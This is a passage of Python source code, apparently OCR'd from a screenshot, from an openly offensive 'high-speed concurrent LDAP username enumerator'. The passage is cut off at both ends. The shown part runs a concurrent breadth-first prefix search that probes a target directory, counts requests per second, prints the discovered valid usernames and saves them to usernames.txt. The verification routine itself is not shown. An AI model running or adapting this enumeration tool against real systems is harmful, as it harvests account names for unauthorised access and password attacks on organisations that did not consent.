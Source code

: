 ```python
                        if await self.verify_exact_username(prefix):
                            if prefix not in complete_usernames:
                                complete_usernames.add(prefix)
                                found_in_batch += 1
                                print(f"\n    [✓] FOUND: {prefix}")
                    else:
                        # Add new extensions to queue
                        for extension in extensions:
                            if extension not in discovered_prefixes:
                                discovered_prefixes.add(extension)
                                queue.append(extension)
                
                print(f"-> {found_in_batch} users")
                await asyncio.sleep(BATCH_DELAY)
            
            # Progress summary
            elapsed = time.time() - self.start_time
            rate = self.request_count / elapsed if elapsed > 0 else 0
            print(f"    [+] Level {level} complete: {len(complete_usernames)} users found")
            print(f"    [+] Requests: {self.request_count} ({rate:.1f} req/s)")
            print(f"    [+] Next level: {len(queue)} prefixes to test")
            
            if level > MAX_USERNAME_LENGTH:
                print("[!] Reached maximum depth")
                break
        
        return sorted(complete_usernames)

async def main():
    enumerator = HighSpeedUsernameEnumerator()
    
    print("=" * 60)
    print("HIGH-SPEED CONCURRENT LDAP USERNAME ENUMERATOR")
    print("=" * 60)
    print(f"[*] Concurrent tests: {CONCURRENT_TESTS}")
    print(f"[*] Global request limit: {MAX_SEMAPHORE}")
    print(f"[*] Charset size: {len(CHARSET)}")
    print(f"[*] Max username length: {MAX_USERNAME_LENGTH}")
    print("=" * 60)
    
    try:
        results = await enumerator.bfs_discover_concurrent()
        
        elapsed = time.time() - enumerator.start_time
        
        print("\n" + "=" * 60)
        print("DISCOVERY COMPLETE")
        print("=" * 60)
        print(f"[+] Time elapsed: {elapsed:.2f} seconds")
        print(f"[+] Total requests: {enumerator.request_count}")
        print(f"[+] Requests/sec: {enumerator.request_count/elapsed:.2f}")
        print(f"[+] Usernames found: {len(results)}")
        
        if results:
            print("\n[+] VALID USERNAMES:")
            for i, username in enumerate(results, 1):
                print(f"    {i:2d}. {username}")
            
            # Save results
            with open("usernames.txt", "w") as f:
                for username in results:
                    f.write(f"{username}\n")
            
```